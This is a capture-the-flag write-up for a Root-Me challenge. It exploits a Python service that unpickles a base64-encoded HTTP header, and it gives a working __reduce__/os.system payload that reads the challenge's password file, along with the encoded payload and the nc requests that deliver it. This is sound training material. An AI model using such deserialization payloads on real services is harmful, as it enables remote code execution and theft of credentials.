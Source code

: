 Let's try to connect.

```
nc challenge02.root-me.org 60005
AUTH admin HTTP/1.0
```

We got the following error message: {"result": "Can't find 'Authenticate' header"}

It wants a "Authenticate Header".

```
nc challenge02.root-me.org 60005
AUTH admin HTTP/1.0
Authenticate: something
```

```
{"result": "Authentication failed = Traceback (most recent call last):\n  File \"/challenge/app-script/ch5/ch5\", line 52, in do_AUTH\n    authcombi = pickle.loads(base64.b64decode(self.headers.getheader('Authenticate')))\n  File \"/usr/lib/python2.7/base64.py\", line 76, in b64decode\n    raise TypeError(msg)\nTypeError: Incorrect padding\n"}
```

So, the program is decoding base64 encoded header "authenticate", and then loads it with pickle. The idea will now be to create an python object, encode it with pickle, and in base64, so that when it gets loaded by the program, it returns the required flag.

We create the following object: (solution of vader)

```
#!/usr/bin/env python

import os
import cPickle
import base64

class RunCmd(object):
    def __reduce__(self):
        return(os.system,
                (('cat /challenge/app-script/ch5/.passwd >&4'),))

print(base64.b64encode(cPickle.dumps(RunCmd())))
```
The payload is now: Y3Bvc2l4CnN5c3RlbQpwMQooUydjYXQgL2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoNS8ucGFzc3dkID4mNCcKcDIKdHAzClJwNAou

```
nc challenge02.root-me.org 60005
AUTH admin HTTP/1.0
Authenticate: Y3Bvc2l4CnN5c3RlbQpwMQooUydjYXQgL2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoNS8ucGFzc3dkID4mNCcKcDIKdHAzClJwNAou
```

Then, pickle loads the object, and execute the command, and display the password.
